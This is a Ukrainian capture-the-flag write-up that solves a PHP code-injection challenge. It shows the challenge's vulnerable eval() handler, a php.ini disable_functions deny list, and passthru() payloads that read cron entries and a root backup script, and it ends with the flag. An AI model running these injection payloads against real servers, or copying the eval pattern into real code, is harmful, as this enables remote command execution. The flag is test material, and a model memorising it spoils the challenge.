









<p align="center">
  
</p>

# 🧩 КНУшний ніж (KNU Knife)
## **Категорія:** Offensive Security  
## **Складність:** Medium  

---

### **Опис завдання:**  
Універсальний інструмент, створений групою ініціативних студентів, отримав назву «КНУшний ніж». На поверхні – звичайний сервіс із базовими функціями. Але якщо копнути глибше, відкриваються зовсім інші леза.  
Кажуть, деякі з них давно заборонені інструкцією з техніки безпеки. Ти ж не з тих, хто читає інструкції?  
Q: Отримайте root flag. Відповідь подайте у форматі actf{flag}.

---
### **Розв'язання:**  
1. Проскануємо наданий **IP** адрес.  
	<p align="center">
		
	</p>
  
2. Подивимось що за веб-ресурс запущений.  
	<p align="center">
		
	</p>
  
3. Wappalyzer каже що використовується **php**, у коді сторінки його не видно, спробуємо скористатися сервісом.  
	<p align="center">
		
	</p>
  
4. Спробуємо визвати декілька функцій.  
	<p align="center">
		
	</p>  
	<p align="center">
		
	</p>
  
5. Деякі функції не пропускає фільтр, деякі нібито спрацьовують, але нічого не відображають. Проскануємо наявні директорії на сайті.  
	<p align="center">
		
	</p>
  
6. Перейдемо у директорію.  
	<p align="center">
		
	</p>
  
У **index.php.backup** бачимо систему фільтрації **regex** + конкретні рядки:  
  ```php
  <?php
  $result = '';
  $error = '';
  $code = '';
  
  if (isset($_GET['code'])) {
      $code = $_GET['code'];
  
      if (
          preg_match('/[^a-z0-9_\(\)\[\]\+\-\*\/\"\'\s]/i', $code) ||
          stripos($code, '//') !== false ||
          stripos($code, 'system') !== false ||
          stripos($code, 'exec') !== false ||
          stripos($code, 'eval') !== false ||
          stripos($code, 'assert') !== false ||
          stripos($code, 'include') !== false ||
          stripos($code, 'require') !== false ||
          stripos($code, 'chr') !== false ||
          stripos($code, 'ord') !== false
      ) {
          $error = "❌ Forbidden keyword detected.";
      } else {
          try {
              eval("\$result = $code;");
          } catch (Throwable $e) {
              $error = "❌ Помилка виконання: " . htmlspecialchars($e->getMessage());
          }
      }
  }
  ?>
  ```     
	
  У **php.ini.backup** можна знайти великий список заблокованих функцій:  

  ```
  disable_functions = include,get_included_files,get_declared_classes,get_declared_functions,ini_set,putenv,memory_get_usage,memory_get_peak_usage,get_defined_constants,assert,require_once,create_function,include,include_once,require,exec,system,shell_exec,popen,proc_open,pcntl_exec,phpinfo,posix_mkfifo,posix_getlogin,posix_ttyname,getenv,get_current_user,proc_get_status,get_cfg_var,disk_free_space,disk_total_space,diskfreespace,getcwd,getlastmo,getmygid,getmyinode,getmypid,getmyuid,fopen,tmpfile,bzopen,gzopen,chmod,chgrp,chown,copy,file_put_contents,lchgrp,lchown,link,mkdir,move_uploaded_file,rename,rmdir,symlink,tempnam,touch,unlink,imagepng,imagewbmp,image2wbmp,imagejpeg,imagexbm,imagegif,imagegd,imagegd2,iptcembed,ftp_get,ftp_nb_get,file_exists,file_get_contents,file,fileatime,filectime,filegroup,fileinode,filemtime,fileowner,fileperms,filesize,filetype,glob,is_dir,is_executable,is_file,is_link,is_readable,is_uploaded_file,is_writable,is_writeable,linkinfo,lstat,parse_ini_file,pathinfo,readfile,readlink,realpath,stat,gzfile,readgzfile,getimagesize,imagecreatefromgif,imagecreatefromjpeg,imagecreatefrompng,imagecreatefromwbmp,imagecreatefromxbm,imagecreatefromxpm,ftp_put,ftp_nb_put,exif_read_data,read_exif_data,exif_thumbnail,exif_imagetype,hash_file,hash_hmac_file,hash_update_file,md5_file,sha1_file,highlight_file,show_source,php_strip_whitespace,get_meta_tags
  ```
7. Знайдемо [репозиторій](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720) із небезпечними функціями **php**, та подивимось які не наявні у списку.  
	Із списку функцій не наявна функція `passthru`, спробуємо скористатися нею.  
	<p align="center">
		
	</p>
  
8. Команда успішно виконується, оскільки на сервері наявна директорія backup, скоріш за все, є скрипт який його створює, передивимось cron на наявність записів повязаних із **backup**.  
	
	`passthru('grep "backup" /etc/cron*/*')`  
	
	<p align="center">
		
	</p>
  
9. Бачимо скрипт який запускається від імені **root**, перевіримо чи можемо ми його прочитати. Оскільки фільтр блокує крапку, замінимо її зірочкою.  
	
	`passthru('cat /usr/local/bin/backup*sh')`  
	
	<p align="center">
		
	</p>

---  
#### Flag: ```actf{php_www_2_r00t_yiT86X}```
---
